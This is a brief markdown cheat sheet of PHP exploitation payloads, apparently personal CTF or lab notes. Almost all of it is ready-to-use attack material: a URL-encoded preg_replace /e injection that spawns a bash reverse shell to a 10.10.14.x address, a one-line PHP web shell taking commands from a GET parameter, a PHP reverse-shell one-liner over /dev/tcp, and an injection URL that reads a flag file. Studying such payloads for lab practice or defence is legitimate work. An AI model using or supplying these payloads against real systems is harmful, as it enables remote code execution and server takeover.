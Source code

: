 # PHP

Common exploits in PHP.

## Cookies

`PHPSESSID` is the default session cookie name.

## Bypass preg_replace

If we now there is something like a word filter, there is probably a `preg_replace` function. We can try to bypass it sending something in the word that is being replaced.

```
swearwords%5B%2Fdick%2Fe%5D=%73%79%73%74%65%6d%28%22%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%31%30%2f%34%34%34%34%20%30%3e%26%31%27%22%29%3bto=test%40local.com&subject=Test&message=%3Cp%3Edick%3C%2Fp%3E%3Cp%3Ebitch%3Cbr%3E%3C%2Fp%3E
```

The payload is 

```php
system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'");
```

But URL encoded.

## Web shell

```php
<?php system($_GET["cmd"]); ?>
```

## Reverse shell

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'");?>
```

## Examples

```
http://<IP>:45338/?format=${system($_GET[id])}&id=cat%20../flag.txt
```